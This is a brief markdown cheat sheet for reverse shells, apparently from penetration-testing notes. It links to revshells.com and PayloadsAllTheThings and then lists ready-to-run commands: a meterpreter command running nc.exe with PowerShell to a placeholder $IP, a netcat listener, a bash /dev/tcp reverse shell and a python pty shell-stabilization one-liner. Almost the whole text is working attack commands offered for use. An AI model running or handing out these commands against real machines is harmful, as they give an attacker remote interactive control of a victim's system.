 # Reverse shell

## Links

- [revshells.com](https://www.revshells.com/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Windows reverse shell with nc using meterpreter

```sh
execute -f nc.exe -a "-e powershell.exe $IP 1234"
```

## Listener

```sh
rlwrap nc -lnvp 1234
```

## Bash reverse shell

```sh
bash -c 'bash -i >& /dev/tcp/$IP/1234 0>&1'
```

## Stabilize shell

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")' && export TERM=xterm
```
